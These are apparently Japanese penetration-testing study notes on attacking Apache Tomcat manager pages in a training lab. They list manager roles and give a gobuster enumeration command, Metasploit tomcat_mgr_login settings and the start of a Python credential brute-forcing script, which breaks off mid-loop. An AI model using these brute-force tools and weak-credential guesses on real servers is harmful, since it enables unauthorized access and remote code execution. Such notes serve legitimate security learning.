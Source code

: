 - manager-gui：GUIおよびステータスページへのアクセス
- manager-script：HTTP APIおよびステータスページ
- manager-jmx：JMXプロキシとステータスページ
- manager-status：ステータスページのみ

### 列挙
- Tomcatインスタンスのフィンガープリントを取った後、特に既知の脆弱性がなければ、まず /manager や /host-manager ページが存在するかを探す
	- これらのページに、tomcat:tomcat や admin:admin などの**弱い認証情報でログインできる**可能性がある
	- ログインページに対してブルートフォース攻撃を行うという選択肢もある（次章で説明）
```shell-session
gobuster dir -u http://web01.inlanefreight.local:8180/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-small.txt 
```

## 攻撃
- /manager や /host-manager エンドポイントにアクセスできるなら、Tomcatサーバー上でリモートコード実行（RCE）が可能になる可能性がある

### ブルートフォース
metasploitのauxiliary/scanner/http/tomcat_mgr_login、burpsuiteを使える
- stop_on_success を true にすることで、ログインに成功した時点でスキャンを止めることができる
```sh
use auxiliary/scanner/http/tomcat_mgr_login
set VHOST web01.inlanefreight.local
set RPORT 8180
set stop_on_success true
set rhosts 10.129.201.58
```

- Metasploitや他のツールがうまく動作しない場合は、Burp SuiteやZAPでプロキシして通信を確認すると良い
- omcatは**Basic認証**を使うため、Burp上でヘッダーの Authorization を確認すると、Base64でエンコードされた資格情報が見られる
- 以下のようなPythonスクリプトでも、Metasploitと同じことができる

```python
#!/usr/bin/python

import requests
from termcolor import cprint
import argparse

parser = argparse.ArgumentParser(description = "Tomcat manager or host-manager credential bruteforcing")

parser.add_argument("-U", "--url", type = str, required = True, help = "URL to tomcat page")
parser.add_argument("-P", "--path", type = str, required = True, help = "manager or host-manager URI")
parser.add_argument("-u", "--usernames", type = str, required = True, help = "Users File")
parser.add_argument("-p", "--passwords", type = str, required = True, help = "Passwords Files")

args = parser.parse_args()

url = args.url
uri = args.path
users_file = args.usernames
passwords_file = args.passwords

new_url = url + uri
f_users = open(users_file, "rb")
f_pass = open(passwords_file, "rb")
usernames = [x.strip() for x in f_users]
passwords = [x.strip() for x in f_pass]

cprint("\n[+] Atacking.....", "red", attrs = ['bold'])

for u in usernames:
```